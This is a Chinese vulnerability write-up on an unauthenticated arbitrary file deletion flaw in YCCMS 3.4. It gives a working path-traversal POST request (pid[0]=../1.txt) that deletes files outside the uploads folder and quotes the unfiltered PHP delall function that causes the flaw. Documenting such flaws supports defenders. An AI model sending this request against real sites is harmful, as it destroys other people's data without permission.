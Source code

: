 YCCMS 3.4 任意文件删除
======================

一、漏洞简介
------------

二、漏洞影响
------------

YCCMS 3.4
---------

三、复现过程

    POST /admin/?a=pic&m=delall HTTP/1.1
    Host: www.0-sec.org:8082
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 89
    Origin: http://127.0.0.1:8082
    Connection: close
    Referer: http://127.0.0.1:8082/admin/?a=pic
    Upgrade-Insecure-Requests: 1

    pid%5B0%5D=../1.txt&chkall=on&send=%E5%88%A0%E9%99%A4%E9%80%89%E4%B8%AD%E5%9B%BE%E7%89%87t

只需要更改pid\[0\]即可在无登录条件下任意删除文件，删除根目录下的1.txt![3.png](./.resource/YCCMS3.4任意文件删除/media/rId24.png)已经删除成功了![4.png](./.resource/YCCMS3.4任意文件删除/media/rId25.png)其实这还是犯了一个最容易犯的错误，没有对传进来的路径进行过滤就拼接了目录，导致了任意文件删除漏洞的产生根据url定位到相关函数位置,位于/controller/PicAction.class.php

    public function delall(){
            if(isset($_POST['send'])){
                if(validate::isNullString($_POST['pid'])) tool::layer_alert('没有选择任何图片!','?a=pic',7);
                $_fileDir=ROOT_PATH.'/uploads/';
                foreach($_POST['pid'] as $_value){
                    $_filePath=$_fileDir.$_value;
                    if(!unlink($_filePath)){
                        tool::layer_alert('图片删除失败,请设权限为777!','?a=pic',7);
                    }else{
                        header('Location:?a=pic');
                    }
                }

            }

        }

对
pid传进来的值并没有进行过滤就进行了了路径的拼接，导致了路径穿越漏洞，触发任意文件删除漏洞

参考链接
--------

> https://xz.aliyun.com/t/7748\#toc-4
